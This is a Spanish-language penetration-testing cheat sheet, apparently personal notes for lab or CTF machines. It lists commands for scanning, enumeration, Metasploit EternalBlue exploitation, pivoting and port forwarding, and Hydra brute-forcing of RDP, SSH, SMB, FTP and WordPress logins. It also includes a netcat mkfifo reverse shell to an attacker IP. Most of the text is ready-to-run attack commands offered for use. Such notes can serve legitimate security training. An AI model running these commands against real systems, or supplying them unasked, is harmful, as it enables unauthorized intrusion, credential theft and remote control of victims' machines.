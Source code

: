 • Crear entorno de trabajo.
• Recuerda ver EL CODIGO FUENTE a para poder **agregar la dirección a /etc/hosts**, cuando se trate de un virtual hosting.
• **Enumerar usuarios usando cat /etc/passwd**
• Apache2 Debian default page consultar /phpinfo.php

/usr/share/metasploit-framework/data/wordlists/common_users.txt
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

python -c "import pty;pty.spawn('/bin/bash')"
## Escaneo de red

`Comprobamos TTL
ping -c1 10.0.60.1

``Barrido de ping, visualizar endpoints en la red
nmap -sn 10.0.60.**0**/24

``Ver interfaces de red
ip a
arp -a 
ifconfig
arp-scan -I eth1 --localnet --ignoredups

# Linux

``Ver interfaces de red
ip a

`Ver privilegios
sudo -l

`Ver conexiones de red
ss -natup

`Ver permisos de archivos del usuario actual
find / -perm -4000 2>/dev/null
#### Linux Ping Sweep

`for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done`

`Tablas de enrutamiento
ip route

`Bash inversa`
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.14.21.44 1123 >/tmp/f
# Windows

## Escaneo de red

`Reconocimiento de red 
`Tablas de enrutamiento
route print

`Comprobar versión de windows, nombre de dominio
crackmapexec smb 10.0.10.40

`Comprobar versión windows cmlt o powershell`
systeminfo | findstr /B /C:"OS Name" /B /C:"OS Version"

`Comprobar si es vulnerable Eternal Blue
nmap -p445 --script smb-vuln-ms17-010 10.0.10.40

#### Windows Ping Sweep

`for /L %i in (1,1,255) do @ping -n 1 -w 200 192.168.1.%i > nul && echo 192.168.1.%i is up.`
## Ataque Metasploit

`Metaxploit de EternalBlue
search eternalblue
msfconsole
use windows/smb/ms17_010_eternalblue

`Ver interfaces de redes en meterpreter
ipconfig

`Ver sesiones de metaexploit
sessions -l

`Pivoting con metaexploit
search   post/multi/manage/autoroute
use post/multi/manage/autoroute
options
set SESSION 1
run

`Portforwarding metaexploit/meterpreter
sessions -i 1
ipconfig
**portfwd add -l 5000 -p 80 -r (IP maquina victima)**
(Puerto 5000 de maquina atacante, sea el puerto 80 de la maquina victima)
**portfwd add -l 3000 -p 21 -r (IP maquina victima)**
(Puerto 5000 de maquina atacante, sea el puerto 80 de la maquina victima)

# Dirb

`Escaneo basico, diccionario predeterminado
dirb http://webscantest.com/

`Escaneo basico, selección de diccionario 
dirb http://webscantest.com/ /usr/share/dirb/wordlists/vulns

`Escaneo basico, diccionario y extensión
dirb http://10.10.252.250/retro /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -X .php

`Escaneo con diccionario y diccionario de extensiones.
dirb http://10.10.204.60/ /usr/share/dirb/wordlists/vulns/iis.txt -x /usr/share/dirb/wordlists/extensions_common.txt

`Objetivos vulnerables en dirb
cd /usr/share/dirb/wordlists/vulns 

# Hydra

`Diccionarios que usar

    /usr/share/metasploit-framework/data/wordlists/common_users.txt
    /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt


`Fuerza bruta a rdp
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.4.18.131 -s 3389

hydra -l Wade -P /usr/share/wordlists/rockyou.txt rdp://10.4.18.131 -s 3389

`Fuerza bruta a login panel

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.0.2.55 http-post-form "/my_weblog/admin.php:username=^USER^&password=^PASS^:Incorrect" -t 64 -F

(ultimo field incorrect,wrong o cualquier display que haya en el mensaje de erorr)"
http-post-form: ruta absoluta del panel de inicio de sesión, usuario y contraseña, string contenida dentro del panel para verificar el cambio de estado 404 a 203

`Fuerza bruta a SMB
hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt 10.0.2.55 smb

`Fuerza bruta wordpress
hydra -l admin -P ./passwordlist.txt 10.0.2.55 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:Incorrect'

`Fuerza bruta por ssh
hydra -v -V -u -L users.txt -p "" -t 4 -u 10.0.2.55 ssh

`Ataque de diccionario ssh`
hydra -l root -P passwords.txt 10.0.2.55 -t 4 ssh

``Fueraza bruta FTP
hydra -t 4 -l admin -P /usr/share/wordlists/rockyou.txt -vV 10.0.2.55 ftp

-l Especificar unico usuario
-L Diccionario de usuarios
-p Especificar contraseña usuario unico
-P Diccionario de contraseñas

# RDP

`Conectarse a windows por rdp
	xfreerdp /u:administrator /p:qwertyuiop /v:10.4.18.131:3389
	xfreerdp /u:USER /p:PASSWORD /v:IPVICTIMA:PUERTOVICTIMA

# Nmap

``Barrido de ping, visualizar endpoints en la red
nmap -sn 10.0.2.**0**/24

``Barrido de nmap a ips
sudo nmap -sS --min-rate 5000 -p- --open 10.0.2.34,35,36,37,38,55 -oN tcp_scan.txt
sudo nmap -p- --open --min-rate 4000 -sS -sCV -Pn -n 10.10.10.39 -vvv -oN tcp_scan.txt
### `Optimizar puertos para ver versiones y servicios
grep '^[0-9]' tcp_scan.txt | cut -d '/' -f1 | sort -u | xargs | tr  ' ' ','

``Escanear puertos abiertos
nmap -p135,139,22,25,445,49665,49670,80 -sC -sV --open 10.0.2.43,45,46,53,55 -Pn -oN full_scan.txt

`Enumerar directorios con NMAP
nmap -p80 -Pn -n -vvv --script=http-enum 10.10.252.250

# Enumeración y explotación de samba

 `Enumeración de recursos:

smbclient -L 10.0.2.43 -N
smbmap -H 10.0.2.43

crackmapexec smb 10.0.2.43 -u '' -p '' --shares
crackmapexec smb 10.0.2.43 -u '' -p '' --users

**enum4linux 10.0.2.43**

`Ingresar sessión con anonymous y descarga de archivos:

smbclient //10.0.2.43/anonymous

• Obteniendo archivo en samba:
get archivo.txt
• Descargar todos los archivos recursivamente dentro de samba:
prompt
mget *

`Ataque de diccionario SMB:

crackmapexec smb 10.0.2.43 -u test -p passwords.txt

``Inicios de sesión samba

smbmap -H 10.0.2.43 -u helios -p qwerty
**smbclient //10.0.2.43/helios -U helios** (luego pedirá contraseña)

`Escaneo de vulnerabilidades samba con map
nmap -p445 --script="smb-vuln-\*" 10.0.2.45 
# WPSCAN

`Enumeración de usuarios
wpscan --url http:\/\/10.2.0.48/ -e u


# MSF

# FTP

`Conexión
ftp 10.10.0.5

`Descargar archivos 
get nombre_del_archivo

`Enviar archivos desde la maquina atacante
send nombre_del_archivo

